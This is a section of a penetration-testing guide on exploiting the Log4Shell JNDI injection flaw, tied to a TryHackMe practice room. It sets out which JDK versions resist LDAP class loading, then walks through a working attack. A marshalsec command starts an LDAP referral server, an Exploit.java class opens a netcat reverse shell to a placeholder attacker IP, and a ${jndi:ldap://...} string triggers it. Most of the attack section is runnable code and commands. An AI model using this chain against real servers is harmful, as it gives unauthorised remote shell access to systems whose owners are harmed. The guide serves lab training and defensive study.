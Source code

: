 ### RCE Information

> [!TIP]
> Hosts running on JDK versions above 6u141, 7u131, or 8u121 are safeguarded against the LDAP class loading attack vector. This is due to the default deactivation of `com.sun.jndi.ldap.object.trustURLCodebase`, which prevents JNDI from loading a remote codebase via LDAP. However, it's crucial to note that these versions are **not protected against the deserialization attack vector**.
>
> For attackers aiming to exploit these higher JDK versions, it's necessary to leverage a **trusted gadget** within the Java application. Tools like ysoserial or JNDIExploit are often used for this purpose. On the contrary, exploiting lower JDK versions is relatively easier as these versions can be manipulated to load and execute arbitrary classes.
>
> For **more information** (_like limitations on RMI and CORBA vectors_) **check the previous JNDI Naming Reference section** or [https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/](https://jfrog.com/blog/log4shell-0-day-vulnerability-all-you-need-to-know/)

### RCE - Marshalsec with custom payload

You can test this in the **THM box:** [**https://tryhackme.com/room/solar**](https://tryhackme.com/room/solar)

Use the tool [**marshalsec**](https://github.com/mbechler/marshalsec) (jar version available [**here**](https://github.com/RandomRobbieBF/marshalsec-jar)). This approach establishes a LDAP referral server to redirect connections to a secondary HTTP server where the exploit will be hosted:

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your_ip_http_server>:8000/#Exploit"
```

To prompt the target to load a reverse shell code, craft a Java file named `Exploit.java` with the content below:

```java
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 9999");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Compile the Java file into a class file using: `javac Exploit.java -source 8 -target 8`. Next, initiate a **HTTP server** in the directory containing the class file with: `python3 -m http.server`. Ensure the **marshalsec LDAP server** references this HTTP server.

Trigger the execution of the exploit class on the susceptible web server by dispatching a payload resembling:

```bash
${jndi:ldap://<LDAP_IP>:1389/Exploit}
```
